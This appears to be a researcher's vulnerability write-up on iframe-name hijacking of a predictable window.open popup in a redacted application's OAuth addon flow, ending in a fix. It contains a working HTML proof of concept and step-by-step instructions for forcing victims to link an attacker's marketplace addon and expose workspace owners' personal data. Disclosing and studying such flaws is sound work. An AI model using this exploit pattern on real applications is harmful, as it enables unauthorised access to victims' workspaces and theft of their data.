

> **TL;DR:** A predictable `window.open()` target name in [REDACTED]'s OAuth flow allowed attackers to hijack the authorization popup via iframe name collision. This enabled me to force victims to unknowingly link attacker-controlled marketplace addons to their workspace, exposing workspace owner PII and configuration data.

---

## Background: What Is the `window.open` Target?

From [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/API/Window/open):

> A string, without whitespace, specifying the **name** of the browsing context the resource is being loaded into. If the name doesn't identify an existing context, a new context is created and given the specified name. The special target keywords `_self`, `_blank` (default), `_parent`, `_top`, and `_unfencedTop` can also be used.
>
> This name can be used as the `target` attribute of `<a>` or `<form>` elements.

### How Can We Use This Against an Application?

This is where **iframe hijacking** comes into play.

The attack works as follows:

1. Set up an attacker-controlled page containing an `<iframe>` with a **pre-chosen name** that matches the name the target application will pass to `window.open()`.
2. When the victim visits this attacker page and triggers the OAuth flow (any action calling `window.open(url, "thepredictedname")`), the browser looks for an existing browsing context with that name.
3. It finds ours the attacker's iframe and loads the popup **inside it** instead of opening a new window.
4. The attacker iframe now holds a reference to what the application believes is its trusted popup. From here, we exploit the relationship between the popup and the victim page.

---

## The Vulnerability

The vulnerability exists in an **addons feature** where users can link additional capabilities to their account. The application allows preset integrations (Slack, Zoom, etc.) and custom ones from `marketplace.redacted.com`. To link an account, the user clicks "Connect" and authorizes through a marketplace OAuth flow.

Here's the relevant source code:

```js
async function p(e, n) {
    // Fetch OAuth URL from backend API
    let l = await N(e, n);
    
    // Extract trusted origin from redirect_uri parameter found in the initiateAddonsoauth url in the response
    let r = function(e) {
        var n;
        let i = new URL(e);
        return new URL(null != (n = i.searchParams.get("redirect_uri")) ? n : "").origin
    }(l);
    
    let k = null;
    
    // postMessage listener for OAuth callback
    let p = n => {
        var l, d, u, m;
        let N = n.data;
        
        (0, v.l$)(N, "type") && "oauth_response_complete" === N.type && 
        (0, v.l$)(N, "payload") && (
            
            // SECURITY CHECK: Validate origin matches redirect_uri origin
            //                 Validate source is our popup window
            r === n.origin && n.source === k
            
        ) && ((t.getState() === o.m.Pending && N.payload.auth && !N.payload.hasError) ? (
            t.resolve(N.payload.auth),
            window.removeEventListener("message", p)
        ) : void 0)
    };
    
    window.addEventListener("message", p);
    
    // VULNERABLE: Static window name allows iframe hijacking
    k = function(e) {
        let n = (screen.width - 640) / 2
          , i = screen.height / 2 - 287.5;
        return window.open(e, "addons-oauthWindow",
            `menubar=no,toolbar=no,status=no,width=640,height=575,left=${n},top=${i}`)
    }(l);
    
    ...
}
```

The application:

1. Makes an API call to get a valid `authorizeUrl`
2. Parses the `redirect_uri` from it and stores the origin as `r`:
   ```js
   return new URL(null != (n = i.searchParams.get("redirect_uri")) ? n : "").origin
   ```
3. Opens a popup with a **hardcoded, predictable target name**:
   ```js
   return window.open(e, "addons-oauthWindow", `menubar=no,toolbar=no,...`)
   ```
4. Sets a `postMessage` listener with these security checks:
   ```js
   r === n.origin && n.source === k
   ```
   - `r === n.origin` — verifies the message comes from the expected OAuth redirect origin
   - `n.source === k` — verifies the message comes from the popup window reference

### Normal Authorization Flow


When authorization completes, the callback page sends a `postMessage` to `window.opener` (`app.redacted.com`):

```html
<html>

<body>
    <script type="text/javascript">
        try {
            if (window.opener) {
                
                window.opener.postMessage({
                    type: 'providerAuthPopupComplete'
                }, '*');
                
                window.opener.console.log({
                    "session_auth": {
                        "id": 101,
                        "clientID_": null,   
                        "client_rev": null,
                        "error_log": {},
                        "revision_id": 99122766,
                        "created_at": "2026-01-22T01:40:26.000Z",
                        "updated_at": "2026-02-16T20:28:40.000Z",
                        "apiUsageCount": 0,  
                        "access_allow": true,
                        "limit_cap": 0,
                        "user_email": "x@example.com", 
                        "full_name": "John Doe",                
                        "display_nick": null,
                        "providerID_": null,
                        "unique_uid": "x123456789hash",         
                        "username": null,
                        "internalUser_ID": 1
                    }
                });
                
                
                window.opener.__oauthCallback__({
                    "session_auth": {
                        "id": 101,
                        "clientID_": null,
                        "client_rev": null,
                        "error_log": {},
                        "revision_id": 99122766,
                        "created_at": "2026-01-22T01:40:26.000Z",
                        "updated_at": "2026-02-16T20:28:40.000Z",
                        "apiUsageCount": 0,
                        "access_allow": true,
                        "limit_cap": 0,
                        "user_email": "x@example.com",
                        "full_name": "John Doe",
                        "display_nick": null,
                        "providerID_": null,
                        "unique_uid": "x123456789hash",
                        "username": null,
                        "internalUser_ID": 1
                    }
                }, false);
                window.close();
            }
        } catch (e) {
           
            const allowedOrigins = [
                "https://app.redacted.com", 
                "https://calendar.redacted.com", 
                "https://developer.redacted.com", 
                "https://marketplace.redacted.com", 
                "https://web.redacted.com",  
                "https://integrations.redacted.com", 
                "https://login.redacted.com"
            ];
            
            allowedOrigins.forEach(
                (origin) => window.opener.postMessage({
                        type: 'oauth_response_complete',
                        payload: {
                            "session_auth": {
                                "id": 101,
                                "clientID_": null,
                                "client_rev": null,
                                "error_log": {},
                                "revision_id": 99887766,
                                "created_at": "2026-01-22T01:40:26.000Z",
                                "updated_at": "2026-02-16T20:28:40.000Z",
                                "apiUsageCount": 0,
                                "access_allow": true,
                                "limit_cap": 0,
                                "user_email": "victim_user@example.com",
                                "full_name": "John Doe",
                                "display_nick": null,
                                "providerID_": null,
                                "unique_uid": "x123456789hash",
                                "username": null,
                                "internalUser_ID": 1
                            }
                        },
                        hasError: false
                    },
                    origin
                )
            );
            window.close();
        }
    </script>
</body>

</html>
```

The flow looks secure the `postMessage` listener has strict origin and source checks. So how do we exploit it?

> **The trick:** hijack the popup so it loads in our iframe, then change `iframe.src` to our attacker callback forcing the victim to link our marketplace addon to their workspace.

---

## Building the Exploit

### STEP 1: The CSP Barrier

For iframe hijacking to work, we need to create an iframe that shares the **same origin** as the page calling `window.open()` with the predictable target name. Browsers scope named browsing contexts by origin an iframe at `attacker.com` won't collide with a window name lookup from `app.redacted.com`.

So we need to iframe something under `app.redacted.com`. The problem? The application enforces a strict Content Security Policy preventing framing. Even 404 pages return proper `frame-ancestors` directives.

After enumeration, I discovered that **static JavaScript files** served from paths like `/static/*.js` returned relaxed CSP headers that omitted `frame-ancestors`. This meant we could create an iframe pointing to one of these JS files:

```html
<iframe
    id="hijackFrame"
    name="addons-oauthWindow"
    src="https://app.redacted.com/static/chunk.a1b2c3d4.js">
</iframe>
```

The iframe now exists under `app.redacted.com`'s origin with the target window name pre-registered in the browser's browsing context.

### STEP 2: Capturing the Attacker Callback

Before weaponizing the hijack, we need a valid OAuth callback URL tied to an attacker-controlled marketplace addon:

1. Create a malicious addon in the marketplace with permissions to access workspace data
2. Initiate the OAuth flow from the attacker's own account
3. Complete authentication and **intercept the final callback URL** before it executes
4. Store this URL it contains the authorization code that will link the addon to whoever triggers it

- the callback call doesn't have a csp which is the case for everything under /api
### STEP 3: Timing the Redirect

The final piece is detecting when the popup gets hijacked and redirecting at the right moment. When `window.open()` resolves to our iframe instead of a new window, the OAuth authorization page loads inside it. We detect this via the `onload` event and immediately redirect to our captured callback:

```html
<!DOCTYPE html>
<html>
<head>
    <title>OAuth Hijack PoC</title>
</head>
<body>
    <button onclick="startAttack()">Open App</button>

    <iframe
        id="hijackFrame"
        name="addons-oauthWindow"
        src="https://app.redacted.com/static/chunk.a1b2c3d4.js"
        style="width:640px; height:575px;">
    </iframe>

    <script>
        const attackerCallback = "https://api.redacted.com/api/auth/callback?code=ATTACKER_CODE&state=ATTACKER_STATE";

        function startAttack() {
            // Open the legitimate app in a new tab
            window.open("https://app.redacted.com/workspace/addons");

            const frame = document.getElementById("hijackFrame");
            let hijacked = false;

            frame.onload = function() {
                if (hijacked) return;
                hijacked = true;

                // OAuth page just loaded in our iframe redirect to attacker callback
                frame.src = attackerCallback;
            };
        }
    </script>
</body>
</html>
```


### Why the Intermediate CSP Doesn't Matter

One might assume the attack fails because the OAuth authorization page (`marketplace.redacted.com/oauth/authorize`) also has framing protections. It does but this is irrelevant.

The browser maintains the iframe's relationship with the opener window **regardless** of whether intermediate pages load successfully. When the authorization page blocks itself from framing, the iframe errors out but the browsing context persists. We simply wait for any `load` event and redirect to the callback endpoint, which sits under `/api` and lacks these protections.

The callback page then executes normally, sending its `postMessage` to `window.opener` which still points to the victim's legitimate app tab.

---

## The Complete Attack Chain

| Step | Action |
|------|--------|
| 1 | Victim visits attacker page containing the named iframe |
| 2 | Victim clicks button, opening `app.redacted.com/workspace/addons` in a new tab |
| 3 | Victim clicks "Connect" on a marketplace addon |
| 4 | App calls `window.open(authorizeUrl, "addons-oauthWindow")` |
| 5 | Browser finds existing browsing context with matching name → OAuth loads in attacker's iframe |
| 6 | Attacker's `onload` handler fires and redirects iframe to pre-captured callback |
| 7 | Callback page sends auth data to `window.opener` (the victim's app tab) |
| 8 | Victim's app processes the response and **links the attacker's malicious addon to their workspace** |

---

### And now after the attack is done. we can access the victim workspace configuration, Workspace users PII, and make some actions that will affect the workspace from the market API .


*The root cause is the use of a static, predictable string (`"addons-oauthWindow"`) as the `window.open` target name. Randomizing this value per-session would fully remediate the vulnerability.*

-alienisgrinding